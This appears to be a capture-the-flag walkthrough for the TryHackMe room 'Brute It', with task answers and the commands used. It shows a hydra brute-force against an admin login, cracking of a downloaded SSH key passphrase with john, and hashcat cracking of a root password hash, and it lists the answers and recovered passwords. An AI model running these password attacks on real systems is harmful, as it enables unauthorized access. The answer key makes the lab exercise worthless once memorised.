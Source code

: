 # Brute It

[Brute It](https://tryhackme.com/room/bruteit)

## Solution

### Task1

Start the box and make sure it works using `ping $IP`.

### Task2

Q: How many ports are open? A: 2
Q: What version of SSH is running? A: OpenSSH 7.6p1
Q: What version of Apache is running? A: 2.4.29
Q: Which Linux distribution is running? A: ubuntu
Q: What is the hidden directory? A: /admin

### Task3

Q: What is the user:password of the admin panel?

```console
hydra -f -V -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

A: admin:xavier

Q: What is John's RSA Private Key passphrase?

```console
wget http://$IP/admin/panel/id_rsa -O id_rsa
~/.local/share/john/run/ssh2john.py id_rsa > id_rsa.txt
~/.local/share/john/run/john id_rsa.txt
```

A: rockinroll

```console
chmod 600 id_rsa
ssh -i id_rsa john@$IP
```

Use the `rockinroll` as the passphrase.

### Task4

Q: What is the root's password?

```console
hashcat -m 1800 '$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.' ~/.local/share/john/run/password.lst
```

A: football
